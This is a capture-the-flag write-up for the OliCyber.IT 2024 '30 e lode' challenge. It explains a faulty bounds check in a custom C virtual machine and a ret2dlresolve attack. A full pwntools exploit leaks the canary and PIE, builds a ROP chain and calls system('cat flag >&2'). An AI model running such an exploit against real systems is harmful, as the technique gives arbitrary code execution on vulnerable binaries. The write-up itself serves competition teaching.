

# OliCyber.IT 2024 - National Final

## [binary] 30 e lode (1 solve)

I wrote this VM for my operating systems university course. There's still a lot of code to add, but I'm very proud so far. Can you check it for me? I want a 30 e lodeeeeeeeeeeeeeeee!

`nc 30elode.challs.external.open.ecsc2024.it 38301`

Author: Giulia Martino <@Giulia>

## Overview

The challenge implements a simple virtual machine written in C which:
- uses a memory area as its stack, which is allocated in the program's stack
- has 17 registers all stored in the program's `.bss` in the global variable `regs`
  - 16 general-purpose registers
  - 1 stack pointer 
- implements different instructions:
  - arithmetics (`add`, `sub`, `mul`, ...)
  - `push` and `pop` with registers and 8/16 bits immediates
  - `mov` between registers
  - `set` a register to an immediate value
  - two special instructions
    - `save` which pushes the 16 GPRs to the stack
    - `restore` which pops 16 stack blocks into the 16 GPRs

When the challenge starts, the user is asked to provide some code that will be fed to the VM. The challenge ensures the code fits the buffer allocated for it and the code size is a multiple of 4, which hints the instruction size.

The challenge then sets up a pipe and forks. The child process proceeds to close both `stdin` and `stdout` (but not `stderr`), allocates the stack, and then starts parsing the user's code and executing the corresponding instructions, 4 bytes at a time. Whenever it finds an invalid instruction, it just stops parsing and returns. At the end of the execution, the code result, stored inside `regs[0]`, is written in the pipe by the child so that the parent process can read it and print it on `stdout`.

### Reversing and interaction

The users are provided just with the challenge binary, which is not stripped and it is also quite straightforward to reverse, considering most of the operations it performs are basic ones.

Helper functions can be implemented for each opcode to make it easier to interact with the challenge.

```python
OPCODE_ADD = 0x0
OPCODE_SUB = 0x1
OPCODE_MUL = 0x2
OPCODE_DIV = 0x3
OPCODE_AND = 0x4
OPCODE_OR =  0x5
OPCODE_XOR = 0x6
OPCODE_SHL = 0x7
OPCODE_SHR = 0x8
OPCODE_PUSH = 0x9
OPCODE_POP = 0xa
OPCODE_MOV = 0xb
OPCODE_SAVE = 0xc
OPCODE_RESTORE = 0xd
OPCODE_SET = 0xe
SIZE_IMM_8 = 0x0
SIZE_IMM_16 = 0x1
SIZE_REG = 0x2

full = b""

def binary(opcode, src, dst):
    global full
    payload = p8(opcode)
    payload += p8(src << 4 | dst)
    payload = payload.ljust(4, b"\x00")
    full += payload

def push_imm_8(imm):
    global full
    payload = p8(OPCODE_PUSH)
    payload += p8(SIZE_IMM_8)
    payload += p8(imm)
    payload = payload.ljust(4, b"\x00")
    full += payload

def push_imm_16(imm):
    global full
    payload = p8(OPCODE_PUSH)
    payload += p8(SIZE_IMM_16)
    payload += p16(imm)
    full += payload

def push_imm_32(imm):
    push_imm_16(imm >> 16)
    push_imm_16(imm & 0xffff)

def push_imm_64(imm):
    push_imm_32(imm >> 32)
    push_imm_32(imm & 0xffffffff)

def push_reg(reg):
    global full
    payload = p8(OPCODE_PUSH)
    payload += p8(SIZE_REG)
    payload += p16(reg)
    full += payload

def pop(reg):
    global full
    payload = p8(OPCODE_POP)
    payload += p8(reg)
    payload = payload.ljust(4, b"\x00")
    full += payload

def save():
    global full
    payload = p8(OPCODE_SAVE)
    payload = payload.ljust(4, b"\x00")
    full += payload

def restore():
    global full
    payload = p8(OPCODE_RESTORE)
    payload = payload.ljust(4, b"\x00")
    full += payload

def set(imm, reg):
    global full
    payload = p8(OPCODE_SET)
    payload += p16(imm)
    payload += p8(reg)
    full += payload
```

## Solution

### Vulnerability

The check inside the `restore` functionality is incorrect, and lets us execute it even when the VM stack pointer is already at the bottom of the VM stack itself:

```c
if (regs[SP] > (long) stack_start + (NUM_REGS * 8))     // <-- the + should be a - here
    errx(1, "Segmentation fault");
```

### Strategy

This means we can pop from the stack stuff that we're not supposed to pop, and this could turn into leaks. Also, considering the `save` instruction lets us push the registers back onto the stack again, the following strategy can be followed to obtain out of bounds control on the stack:
- `restore`, to leak stack values into registers
- modify registers content
- `save`, to push the modified values back on the stack

We can use a debugger to analyse the state of the stack right before the VM code execution starts to check what can be leaked/modified:


- The pink line indicates the stack canary.
- Red addresses point to code within the executable.
- Yellow addresses are stack addresses.
- The blue line indicates the start of the challenge banner.

So, by executing a `restore` instruction as the first instruction, we can leak both the canary and PIE. This is the VM registers' state after the `restore`:



- `regs[12]` (in red) holds the return address.
- `regs[14]` (in pink) holds the canary.

By modifying `regs[12]` and the previous ones we can build a ROP chain, while `regs[14]` must be preserved to bypass the canary protection.

There is no win function and not a lot of useful gadgets, including no `syscall` gadget, so performing a raw ROP chain inside the binary to get a shell or read the flag is not possible.  

Going through `libc` is always an option, but the remote one is not given as an attachment and we don't bother leaking it to perform some `ret2libc` attack considering `stdout` is also closed.

### Ret2dlresolve

The `ret2dlresolve` technique comes to our rescue. This technique exploits the dynamic linking process and does not need any libc leak, although it makes us able to call arbitrary functions from it.  

When a binary is dynamically linked, the addresses of the external functions imported by the binary (e.g. `libc` functions) are resolved at runtime, only when needed. The binary doesn't really know the address of an external function until it is called for the first time. This is called lazy binding.

In short, this process uses code stubs in the binary together with dedicated function-specific structures that describe how to resolve a specific function from a specific library.

`ret2dlresolve` consists in building a fake version of the aforementioned structures for an arbitrary symbol and then emulate the resolving process (prepare registers and stack as needed) to trick the dynamic linker into resolving our desired symbol for us, as it would do with a legitly imported function.

The entire process will not be explained in detail here, as there is a lot of good resources online. [This blogpost](https://syst3mfailure.io/ret2dl_resolve/) is an example, and reading it is strongly suggested to get a deep understanding of the dynamic linking process and the exploitation technique. The rest of the writeup takes for granted the user already knows them.

Pwntools provides [a cool module](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html) for `ret2dlresolve` payloads, which can be used with a little tweaks.

Considering we can resolve an arbitrary function, let's use `system`. We don't really want to open a shell since `stdin` and `stdout` are both closed, so we can just execute `system("cat flag >&2")` to print the flag to `stderr`, which is still open.

To perform the `ret2dlresolve` attack we need to:

1. write the fake structures for `system` to a memory area which must be relatively close to the GOT (the `.bss` is usually perfectly suitable).
2. set `rdi` to the argument we want to call system with (the address of the string `cat flag >&2`).
3. overwrite the return address with the `plt_init` stub address and set its following 8 bytes (a stack block) to the correct `reloc_index`.

#### 1. Fake structures
The first requirement can be achieved by using the VM registers themselves. They are all stored in the `.bss` section, and each of them is 8 bytes long. This means we can control a 16*8 bytes memory area in the `.bss`. The pwntools `Ret2dlresolvePayload` function lets us specify where to store the payload, so that it can compute the `reloc_index` accordingly.

> Note that the `args` part of this payload is not really relevant for us, as we will set `rdi` to the desired argument afterwards.

```python
dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["whatever"], data_addr=exe.sym["regs"])
print(f"dlresolve.data_addr: {hex(dlresolve.data_addr)}")
print(f"dlresolve.reloc_index: {dlresolve.reloc_index}")

for i in range(0, len(dlresolve.payload) // 8):
    push_imm_64(u64(dlresolve.payload[8*i:8*(i+1)]))
    pop(i)
```

#### 3. Preparing the stack

The third requirement can be achieved by using the `restore` + `save` combination. The `plt_init` offset can be found using IDA, Ghidra, or just by copy-pasting the code pwntools uses to compute it from its source code. The `reloc_index` can be extracted from the `dlresolve` object generated in the previous step.

```python
restore()   # regs[14] = canary; regs[13] = stack leak; regs[12] = pie leak; regs[11] = reloc_index
LEAK_OFFS = 0x1cfe
PLT_INIT_OFFS = exe.get_section_by_name(".plt").header.sh_addr
print(f"plt_init_offs: {hex(PLT_INIT_OFFS)}")
set(LEAK_OFFS - PLT_INIT_OFFS, 0)
binary(OPCODE_SUB, 12, 0)

set(dlresolve.reloc_index, 11)
save()
```

> Note: the final exploit will actually perform `restore` + `save` first, before previous step.

#### 2. Setting `rdi`
To fulfill the second requirement, we need to control `rdi`. The last statement executed before the `return` instruction inside `vm` is a call to `parse`, which takes a pointer to our code as the first argument. At the `return` instruction, the value of `rdi` is not changed, and it is still pointing to our code buffer, meaning it is controlled. Considering whenever an invalid instruction is found the challenge just stops parsing, it is then possible to set `rdi = addr of arbitrary string` by just inserting the arbitrary string at the end of our code payload and making sure its first 4 chars do **not** represent a valid VM instruction. The string `cat flag >&2` works just as it is.

Putting everything together we can get the flag.

## Exploit
```python
#!/usr/bin/env python3

import logging
import os
from pwn import *

logging.disable()

filename = os.path.join(os.path.dirname(__file__), "30elode")
exe = context.binary = ELF(args.EXE or filename, checksec=False)
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get("HOST", "30elode.challs.external.open.ecsc2024.it")
PORT = int(os.environ.get("PORT", 38301))

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    if args.LOCAL:
        return process([exe.path] + argv, *a, **kw)
    else:
        return remote(HOST, PORT)

gdbscript = '''
set follow-fork-mode child
b vm
c
'''.format(**locals())

# ==========================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

OPCODE_ADD = 0x0
OPCODE_SUB = 0x1
OPCODE_MUL = 0x2
OPCODE_DIV = 0x3
OPCODE_AND = 0x4
OPCODE_OR =  0x5
OPCODE_XOR = 0x6
OPCODE_SHL = 0x7
OPCODE_SHR = 0x8
OPCODE_PUSH = 0x9
OPCODE_POP = 0xa
OPCODE_MOV = 0xb
OPCODE_SAVE = 0xc
OPCODE_RESTORE = 0xd
OPCODE_SET = 0xe
SIZE_IMM_8 = 0x0
SIZE_IMM_16 = 0x1
SIZE_REG = 0x2

full = b""

def binary(opcode, src, dst):
    global full
    payload = p8(opcode)
    payload += p8(src << 4 | dst)
    payload = payload.ljust(4, b"\x00")
    full += payload

def push_imm_8(imm):
    global full
    payload = p8(OPCODE_PUSH)
    payload += p8(SIZE_IMM_8)
    payload += p8(imm)
    payload = payload.ljust(4, b"\x00")
    full += payload

def push_imm_16(imm):
    global full
    payload = p8(OPCODE_PUSH)
    payload += p8(SIZE_IMM_16)
    payload += p16(imm)
    full += payload

def push_imm_32(imm):
    push_imm_16(imm >> 16)
    push_imm_16(imm & 0xffff)

def push_imm_64(imm):
    push_imm_32(imm >> 32)
    push_imm_32(imm & 0xffffffff)

def push_reg(reg):
    global full
    payload = p8(OPCODE_PUSH)
    payload += p8(SIZE_REG)
    payload += p16(reg)
    full += payload

def pop(reg):
    global full
    payload = p8(OPCODE_POP)
    payload += p8(reg)
    payload = payload.ljust(4, b"\x00")
    full += payload

def save():
    global full
    payload = p8(OPCODE_SAVE)
    payload = payload.ljust(4, b"\x00")
    full += payload

def restore():
    global full
    payload = p8(OPCODE_RESTORE)
    payload = payload.ljust(4, b"\x00")
    full += payload

def set(imm, reg):
    global full
    payload = p8(OPCODE_SET)
    payload += p16(imm)
    payload += p8(reg)
    full += payload

restore()   # regs[14] = canary; regs[13] = stack leak; regs[12] = pie leak; regs[11] = reloc_index
LEAK_OFFS = 0x1cfe
PLT_INIT_OFFS = exe.get_section_by_name(".plt").header.sh_addr
print(f"plt_init_offs: {hex(PLT_INIT_OFFS)}")
set(LEAK_OFFS - PLT_INIT_OFFS, 0)
binary(OPCODE_SUB, 12, 0)

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["whatever"], data_addr=exe.sym["regs"])
print(f"dlresolve.data_addr: {hex(dlresolve.data_addr)}")
print(f"dlresolve.reloc_index: {dlresolve.reloc_index}")

set(dlresolve.reloc_index, 11)
save()

for i in range(0, len(dlresolve.payload) // 8):
    push_imm_64(u64(dlresolve.payload[8*i:8*(i+1)]))
    pop(i)

full += b"cat flag >&2"
if len(full) % 4 != 0:
    full = full.ljust((len(full) // 4 + 1) * 4, b"\x00")
io.sendlineafter(b"Code size (bytes): ", str(len(full)).encode())
io.sendafter(b"Code: ", full)

if args.GDB:
    io.interactive()
else:
    res = io.recvuntil(b"flag{").strip()
    print('flag{' + io.recvuntil(b'}').strip().decode())
    io.close()
```